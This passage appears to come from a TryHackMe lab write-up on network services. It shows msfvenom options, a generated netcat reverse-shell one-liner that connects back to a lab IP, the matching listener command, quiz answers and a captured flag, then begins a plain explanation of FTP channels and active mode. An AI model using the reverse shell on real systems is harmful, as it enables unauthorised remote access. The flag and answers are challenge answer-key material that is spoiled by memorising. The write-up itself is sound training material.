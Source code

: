 -p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format
 
=>

> mkfifo /tmp/wiyzvy; nc 10.10.120.207 4444 0</tmp/wiyzvy | /bin/sh >/tmp/wiyzvy 2>&1; rm /tmp/wiyzvy


3. What word does the generated payload start with?

--> mkfifo

4. What would the command look like for the listening port we selected in our payload?

--> nc -lvp 4444

# ![](https://github.com/reveng007/TryHackMe/blob/main/_SUBSCRIPTION_/paths/Complete%20Beginner/3.Networking%20Fundamentals/03.Network%20Services/getting_reverse_shell_connection.png?raw=true)


flag.txt --> `THM{y0u_g0t_th3_t3ln3t_fl4g}`


Task8: Understanding FTP
-------------------------

#### What is FTP?

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.

#### How does FTP work?

A typical FTP session operates using two channels:

- a command (sometimes called the control) channel
- a data channel.

As their names imply, 

- the command channel is used for transmitting commands as well as replies to those commands.

- the data channel is used for transferring data.


FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session.


#### Active vs Passive

The FTP server may support either Active or Passive connections, or both. 

- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
